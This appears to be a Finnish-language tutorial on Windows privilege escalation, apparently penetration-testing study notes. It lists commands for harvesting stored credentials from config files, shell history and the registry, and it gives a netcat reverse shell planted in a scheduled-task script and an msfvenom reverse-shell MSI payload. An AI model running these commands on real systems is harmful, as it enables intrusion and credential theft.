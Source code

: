 ## Privilege Escalation: Windows ##

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o maltsu.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun maltsu.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\maltsu.msi
```
